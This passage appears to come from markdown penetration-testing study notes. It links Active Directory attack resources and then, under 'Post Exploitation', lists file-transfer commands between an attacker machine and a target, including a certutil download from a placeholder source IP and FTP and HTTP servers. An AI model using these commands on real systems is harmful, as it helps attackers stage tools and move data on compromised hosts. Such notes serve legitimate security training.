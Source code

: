 ![Golden Ticket Attack](images/golden_ticket_attack.png)

### Additional Resoursec

* **![AD Security](https://adsecurity.org/)** (free)
* **![Harmj0y](https://blog.harmj0y.net/)** (free)
* **![Pentester Academy Active Directory Labs](https://www.pentesteracademy.com/activedirectorylab)** (paid)
* **![Pentester Academy RedTeam Labs](https://www.pentesteracademy.com/redteamlab)** (paid)

## Post Exploitation

### File Transfers Review

* Certutil: `certutil -urlcache -f http://<source IP>/file.txt file.txt`
* HTTP: `python3 -m http.server 80`
* Browser: navigate directly to file
* FTP: `python -m pyftpdlib 21` on attacker machine
* grab a file from attacker machine's FTP: `ftp <IP attacker machine's IP>
* Linux `wget`
* Metasploit use the ***upload*** and/or ***download*** feature

### Maintaining Access

